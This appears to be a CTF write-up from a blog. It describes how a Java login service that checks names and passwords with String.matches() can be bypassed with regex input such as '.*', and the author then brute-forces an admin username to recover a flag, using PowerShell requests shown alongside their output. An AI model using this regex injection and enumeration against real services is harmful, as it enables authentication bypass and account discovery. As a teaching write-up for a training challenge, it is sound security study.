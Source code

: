 ```yaml
---
title: '[CTF(x) 2016 : WEB] Harambehub – 100 pts Writeup'
author: Megabeets
type: post
date: 2016-08-28T21:37:46+00:00
url: /ctfx-2016-web-harambehub-100-pts/
categories:
  - CTF(x)
  - Writeups
tags:
  - CTF
  - CTF(x)
  - Powershell
  - Web
  - Writeups

---
```

**Challenge description:**  
_This website was created in honor of harambe: http://problems.ctfx.io:7003_  
 _Problem author: omegablitz_  
[HarambeHub.java][1]  
[ _User.java_][2]

This challenge was the second in the Web category and it actually was the first time I’ve ever seen something like that. We are given with a url, which returns an empty page and two source-files written in Java for Spark Framework. Make sure you read the given source-files before you continue.

The main file, HarambeHub.java, contains two methods which are actually get() and post() routes to two different pages, as you can see below:

<pre lang="java" class="">public class HarambeHub {
    public static void main(String[] args) {
        post("/users", (req, res) -&gt; {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
            String realName = req.queryParams("real_name");
           ...
        });
		
        get("/name", (req, res) -&gt; {
            String username = req.queryParams("username");
            String password = req.queryParams("password");
      	...
        });
    }
}
</pre>

Reading both source files we understand the application is capable of creating a new account and to retrieve the real_name of a user if you know its username and password.

Let’s try to register a new user, using a simple Powershell code:

<pre lang="powershell" class="">(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="Megabeets"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content
</pre>

We results with “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. As you can see, the text “[Member] “ has been added to the username we supplied. By reading the function that handles the registration process we understand that we can register a user with that name again and again. Executing the exact same code results with the exact same answer: “_OK: Your username is &#8220;[Member] Megabeets&#8221;_”. Let’s try this again but this time with “[Member] Megabeets” in the username. Now we end up with an error saying: “_FAILED: User with that name already exists!_”.

Let’s take a look at the code that checks if a given username already exists:

<pre lang="java" class="">...
for (User user : User.users) {
                if(user.getUsername().matches(username)) {
                    return "FAILED: User with that name already exists!";
                }
            }
            new User("[Member]	 " + username, password, realName);
            return "OK: Your username is \"" + "[Member] " + username + "\"";
...
</pre>

As you can see, the code compares the two strings in attempt to check whether the username exists, but it uses String.matches() instead of String.equals(). The method String.matches() checks the match of a string to a regular rxpression pattern. Keep this in mind, it’s the key to solving the challenge. If false is returned, it creates a new User with the username “[Member] <username>”, just as we’ve seen before.

But what happens if we try to register a user with a regular expression as its desired username? Does it say that the username already exists? Let’s play with it a little bit and see what we get when sending “.\*” as the password (“.\*” is the regex pattern to **anything)**.

<pre lang="powershell" class="">(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username=".*"; password="VeggiesAreGood"; real_name="Itay Cohen"}).Content
</pre>

As expected, we received the error: &#8220;FAILED: User with that name already exists!&#8221;.

Now let’s take a look at the function that retrieves the real_name of a given username.

<pre lang="java" class="">public boolean verify(String username, String password) {
        return this.username.equals(username) && this.master.matches(password);
    }
</pre>

This function also uses String.matches() to compare the given password with the user’s password. Let’s see it in action:

<pre lang="powershell" class="">Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password="VeggiesAreGood"}
</pre>

We results with: “_Itay Cohen_”.

Good. Now we’ll send the same request but this time with wildcard as the password.

<pre lang="powershell">Invoke-WebRequest "http://problems.ctfx.io:7003/name" -Method Get -Body @{username="[Member] Megabeets"; password=".*"}
</pre>

We again results with: “_Itay Cohen_”.

Let’s sum up what we have understood until now:

  1. We can get the real_name of any user if we know its username.
  2. We can understand if username already exists by using regular expressions.

That’s mean that we need to run through all the possible usernames till we find the user which his password is the flag. My gut feeling tells me the username will probably start with “[Admin]”.

I’ll do a simple test to check whether indeed a user begins with “[Admin]” exists. If so, only the developer can add a user with such a username because every registered username is prepend with “[Member]”.

<pre lang="powershell">(Invoke-WebRequest "http://problems.ctfx.io:7003/users" -Method POST -Body @{username="^\[Admin\].*"; password="pass"; real_name="Itay Cohen"}).Content
</pre>

“_FAILED: User with that name already exists!_”.

I wrote a simple script to automate the process. May the bruteforce be with us.



Results:

<pre class="theme:inlellij-idea">Match found: \[Admin\] A
Match found: \[Admin\] Ar
Match found: \[Admin\] Arx
Match found: \[Admin\] Arxe
Match found: \[Admin\] Arxen
Match found: \[Admin\] Arxeni
Match found: \[Admin\] Arxenix
Match found: \[Admin\] Arxenixi
Match found: \[Admin\] Arxenixis
Match found: \[Admin\] Arxenixisa
Match found: \[Admin\] Arxenixisal
Match found: \[Admin\] Arxenixisalo
Match found: \[Admin\] Arxenixisalos
Match found: \[Admin\] Arxenixisalose
Match found: \[Admin\] Arxenixisaloser
</pre>

It seems like we’ve found the username. Let’s get its real_name:

<pre lang="powershell" class="">(Invoke-WebRequest "http://problems.ctfx.io:7003/name?username=\[Admin\] Arxenixisaloser; password=.*").content
</pre>

And we got the flag:

_ctf(h4r4mb3\_d1dn1t\_d13\_4\_th1s\_f33ls\_b4d)_

<p style="text-align: right;">
  <img decoding="async" loading="lazy" class="wp-image-149 alignnone" src="http://megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies.
</p>

<img decoding="async" loading="lazy" class="alignleft" src="http://www.gannett-cdn.com/-mm-/748c68a68596b4b3be54484af8d31875e45f9fe5/c=179-0-2659-3307&r=537&c=0-0-534-712/local/-/media/2016/05/29/Cincinnati/Cincinnati/636001135964333349-Harambe2.jpg" width="172" height="209" /> 

**Harambe the Gorilla** was a 17-year-old Western lowland silverback gorilla who was shot and killed at the Cincinnati Zoo after a child fell into his enclosure in late May 2016. The incident was wildly criticized online by many who blamed the child’s parents for the gorilla’s untimely death.

**RIP Harambe.**

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: https://gist.github.com/ITAYC0HEN/5df90c37fcdd78196778475e67011f7a
 [2]: https://gist.github.com/ITAYC0HEN/ad92229f6ae7f5fdf3c47ec752959b7e
